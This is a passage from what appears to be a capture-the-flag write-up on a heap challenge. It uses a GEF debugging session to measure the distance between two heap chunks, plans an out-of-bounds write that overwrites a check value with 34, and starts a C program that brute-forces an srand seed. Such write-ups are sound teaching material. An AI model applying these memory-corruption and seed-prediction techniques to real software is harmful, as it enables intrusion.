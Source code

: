 ```c

            }
            i += 1;

    }


}

/*
Output:
Trying: 1
Trying: 2
...
FOUND 34
*/
```

We can see that the number 34, is valid for this check. However, how can we modify the value at **level_1_check**?

If we debug the program, and look at the addresses of the 2 chunks in memory _(level_1_check and level_1_allocations)_

```
gef➤  x/2gx 0x00055555555C400
0x55555555c400: 0x000055555556f4a0      0x00005555555704b0
gef➤  pi 0x00005555555704b0 - 0x000055555556f4a0
4112
```

We see that they are 4112 bytes apart. This is less than the `4343` max bytes that we can write to from `level_1_allocations`.

This means that with our level 1 OOB write, we can overwrite the `level_1_check` with the number `34` that would allow us to unlock `level 3`.

```
x + (15<<8) + 247 = 4112
x = 25
```

Now we need to find a random seed such that it will give us a random of 25. We can write another c program to brute force this seed.

```c
#include <stdlib.h>
#include <stdio.h>

int qq(int i) {

	int random;
	srand(i);
	for (int x=0; x<16; x+=1) {
		random = rand() % 256 + 1;
		printf("%d: %d\n", x, random);
	}
	return random;

}

int main() {

	int i = 0;

	while (1) {

		if (qq(i) == 25) {
```